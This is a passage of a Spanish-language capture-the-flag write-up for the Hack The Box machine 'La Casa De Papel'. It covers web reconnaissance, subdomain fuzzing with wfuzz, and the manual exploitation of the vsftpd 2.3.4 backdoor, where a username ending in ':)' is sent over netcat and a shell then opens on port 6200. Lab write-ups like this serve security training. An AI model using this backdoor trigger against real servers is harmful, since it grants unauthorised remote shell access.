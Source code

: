 Vemos tanto `ssh`, `ftp`, `http` y `https`. A pesar de ver una versión vulnerable muy conocida (`vsftpd 2.3.4`), Primero hacemos cierto 
reconocimiento sobre las webs. 
```bash
$: whatweb http://10.10.10.131:80
http://10.10.10.131:80 [200 OK] Country[RESERVED][ZZ], HTML5, IP[10.10.10.131], Title[La Casa De Papel], X-Powered-By[Express]

$: whatweb https://10.10.10.131:443
https://10.10.10.131:443 [401 Unauthorized] Country[RESERVED][ZZ], HTML5, IP[10.10.10.131], Title[La Casa De Papel], X-Powered-By[Express]

$: curl -sv https://10.10.10.131:443 -k
* Server certificate:
*  subject: CN=lacasadepapel.htb; O=La Casa De Papel
(...)
< HTTP/1.1 401 Unauthorized
< X-Powered-By: Express
(...)
<!DOCTYPE html><html lang="en"><head><title>La Casa De Papel</title><style type="text/css">body {
(...)
```
- En la web de http encontramos un códigoQr que parece un rabbit hole, porque probando cosas no he dado con nada interesante. 
![](/assets/images/htb-casapapel/la_casa_de_papel3.png)
- En https nos salta un error de que falta un certificado
![](/assets/images/htb-casapapel/la_casa_de_papel2.png)

Haciendo fuzzing con wfuzz no encontramos ninguna ruta interesante
```bash
$: wfuzz --hc=404 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.lacasadepapel.htb" http://lacasadepapel.htb/
(...)
$: wfuzz --hc=404 --hh=1754 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.lacasadepapel.htb" http://lacasadepapel.htb/
(...)
$: wfuzz --hc=404,401 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.lacasadepapel.htb"https://lacasadepapel.htb:443
(...)
```

--------------------------
# PHP Shell

Volvemos con `vsftpd 2.3.4` en el puerto 21, procedemos a explotarla manualmente. 
1. Mandamos una carita sonriente en el nombre `USER cucusxii:)`  
2. Escuchamos por el puerto 6200  
```bash
$: nc -nv 10.10.10.131 21
(UNKNOWN) [10.10.10.131] 21 (ftp) open
220 (vsFTPd 2.3.4)
USER cucuxii:)
331 Please specify the password.
PASS :)

$: nc -nv 10.10.10.131 6200
(UNKNOWN) [10.10.10.131] 6200 (?) open
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```
